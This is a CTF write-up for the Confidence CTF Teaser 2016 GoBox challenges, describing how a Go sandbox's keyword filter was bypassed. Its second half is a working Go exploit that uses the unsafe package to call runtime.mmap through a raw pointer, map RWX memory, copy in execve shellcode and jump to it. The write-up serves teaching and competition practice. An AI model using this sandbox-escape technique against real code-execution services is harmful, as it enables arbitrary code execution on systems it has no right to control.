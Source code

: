 ```yaml
---
layout: post
title:  "Confidence CTF Teaser 2016 - GoBox and GoBox2 [pwn]"
date:   2016-06-01 20:12:59
tags:   ctf, pwn
excerpt_separator: <!--more-->
---
```


This is a writeup from Confidence CTF Teaser 2016 - GoBox and GoBox2 tasks from pwn category.

The program was a Go lang sandbox that asked for input - a valid Go program. Then it compiled and executed it. The binary was running on a server and the goal was to launch external program on it.
<!--more-->
Of course it would have been too simple to be able to just launch `os.Exec` or anything like that, so by debugging the program and reversing it I have found out that it filtered a list of keywords: `[cmd, compress, crypto, database, debug, encoing, expvar, flag, go, html, image, internal, io, log, mime, net, os, path, reflect, runtime, syscall, testing, text]`.

After some research I have found out that a library called `unsafe` can be used, which allows to use raw pointers like in C (by the way, you can use raw pointers in [C#](https://msdn.microsoft.com/en-us/library/chfa2zb8.aspx) or [Java](http://mishadoff.com/blog/java-magic-part-4-sun-dot-misc-dot-unsafe/) as well).

Of course like in modern compilers the stack was not executable, so one couldn't simply create a buffer with shellcode and call it. What I have spotted is that if I allocated some memory in Go, the `mmap` syscall was in the GOT. After some time I have found out how to call a function using raw pointer initialized with an address. Thanks to that I could call `mmap` to allocate memory with RWX permissions and so write there the shellcode and then call it.

The funny and annoying thing was that the `fmt.Println` function I have used for debugging is a generic one and so each usage of it changed the addresses in GOT, so I had to change the address from time to time.

Below is the payload I have used to get both flags (it turned out that gobox1 had some other bug that allowed it to be solved easier and this solution was working on both challenges):

```go
package main

import "fmt"
import "unsafe"

func main() {
    //var ffs = (uintptr)(0x4942a0); // syscall.mmap
    //var ffs2 = &ffs;
    // call mmap(NULL, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0)  
    //(*(*func(int, int, int, int, int, int))(unsafe.Pointer(&ffs2)))(0, 4096, 7, 34, -1, 0)

    var mmapAddr = (uintptr)(0x494330); // runtime.mmap
    var mmapPtr = &mmapAddr;

    var allocated = (*(*func(uintptr, int, int, int, int, int) (uintptr))(unsafe.Pointer(&mmapPtr)))(0, 4096, 7, 34, -1, 0)
    fmt.Printf("mmap allocated ptr=0x%x\n", allocated)

    var c = make([]byte, 1, 1)
    fmt.Println(c)

    var shellcode = []byte("\xeb\x1a\x5e\x48\x31\xc0\x48\x89\x46\x10\xb8\x3b\x00\x00\x00\x48\x8d\x3e\x48\x8d\x56\x10\x48\x8d\x76\x10\x0f\x05\xe8\xe1\xff\xff\xff\x2e\x2f\x67\x65\x74\x5f\x66\x6c\x61\x67\x00")

    for i:=0; i<len(shellcode); i++ {
        var x = unsafe.Pointer(allocated + (uintptr)(i))
        var str = (*byte)(x);
        *str = shellcode[i];
        //fmt.Println("str=%p, *str=%d\n", str, *str)
    }

    //fmt.Println(shellcode)

    var pointerWrapper = &allocated;
    fmt.Println("Launching shellcode")
    (*(*func())(unsafe.Pointer(&pointerWrapper)))()
    fmt.Println("Shellcode over")
}
```
